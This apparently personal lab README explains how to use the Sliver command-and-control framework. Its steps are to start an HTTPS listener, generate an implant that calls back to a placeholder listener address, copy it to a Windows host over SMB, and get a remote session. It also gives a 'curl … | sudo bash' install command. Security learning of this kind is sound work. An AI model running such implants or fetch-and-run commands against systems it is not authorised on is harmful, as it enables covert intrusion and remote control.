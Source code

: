 <h1>Using Sliver</h1>

<h2>Description</h2>
Sliver is a free to use Command and Control (C2) Framework designed to provide advanced capabilities for covertly managing and controlling remote systems. Find out more at the official Sliver C2 site (https://sliver.sh/)
<br />


<h2>Languages and Utilities Used</h2>
 
- <b>Kali Linux</b>
- <b>Sliver</b>

<h2>Environments Used </h2>

- <b>Windows 10</b>


<h3>Installation</h3>
  - <b>Sliver can be installed using the following command <i>sudo apt install sliver</i></b><br />
  - <b>It can also be installed using the following: curl https://sliver.sh/install | sudo bash (Not Recommended)</b></br />

<h3>Running Sliver</h3>
After installing Sliver, you can run sliver-server just be running the <i>sliver</i> command. Alternatively, you can run the sliver client with the <i>sliver-client</i> command:<br />
<p align="center">
  <img src="./imgs/sliver_open.png"/>
  <img src="./imgs/sliver_client.png"/>
</p>
<br />
Now in our sliver-client window we can start an https listener by using the https command. We can confirm that it is listening by using the jobs command:<br />
<p align="center">
  <img src="./imgs/https_listener.png"/>
</p>
<br />
Next, we'll generate an implant using the following command:<i>generate --http <LISTENER_IPADDRESS></i>. This will generate an implant that will be hosted on our HTTPS listener:
<p align="center">
  <img src="./imgs/https_implant.png"/>
</p>
 <br />
Now we need a method of transferring the implant to the target host. For the sake of simplicity I'll use SMB to transfer the file:
<p align="center">
  <img src="./imgs/win_smb_req.png"/>
  <img src="./imgs/lin_smb_rep.png"/>
</p>
<br />
Now we can execute the payload and get an active session, that we can interact with, on our sliver client:
<p align="center">
  <img src="./imgs/exec_implant.png"/>
  <img src="./imgs/sliver_session.png"/>
</p>
<br />


 
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
